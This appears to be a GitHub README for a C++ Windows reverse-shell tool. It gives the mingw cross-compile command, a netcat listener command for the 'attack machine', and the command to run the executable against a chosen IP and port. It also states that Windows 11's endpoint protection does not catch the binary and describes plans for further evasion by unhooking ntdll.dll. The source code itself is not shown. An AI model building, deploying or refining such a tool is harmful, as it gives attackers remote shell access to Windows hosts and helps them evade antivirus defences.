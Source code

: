 # ShellsTo Compile in Linux first install the following packages```shellsudo apt install mingw-w64```To Compile```shellx86_64-w64-mingw32-g++ cppRevShell.cpp -o reverse.exe -static -lws2_32```To test first start netcat listener on attack machine.```shellsudo nc -nvlp 4444```Execute on Windows Machine```shellreverse.exe <ip> <port>```So far on a fresh install of Windows 11 ATP does not block this file, I will see where I can take it to the point I have to dechain ntdll.dll.